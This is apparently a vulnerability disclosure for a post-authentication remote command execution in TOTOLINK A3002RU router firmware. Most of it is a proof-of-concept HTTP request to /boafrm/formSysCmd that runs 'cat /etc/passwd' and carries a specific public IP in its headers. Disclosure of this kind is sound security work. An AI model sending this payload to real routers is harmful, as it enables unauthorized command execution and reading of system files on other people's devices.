## TOTOLINK-A3002RU-RCE

Vendor:TOTOLINK
Product:TOTOLINK-A3002RU
Firmware Version: TOTOLINK-A3002RU V2.0.0-B20190902.1958
Link:http://www.totolink.cn/

### description
TOTOLINK-A3002RU has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that


POC:

```
POST /boafrm/formSysCmd HTTP/1.1
Host: IP
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://113.53.30.58:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/110.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.
8,application/signed-exchange;v=b3;q=0.7
Referer: http://113.53.30.58:8443/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

submit-url=%2Fsyscmd.htm&sysCmdselect=5&sysCmdselects=0&save_apply=Run+Command&sysCmd=c
at+/etc/passwd
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/920fa305-e48d-42d2-bd02-61a4ea49bb43
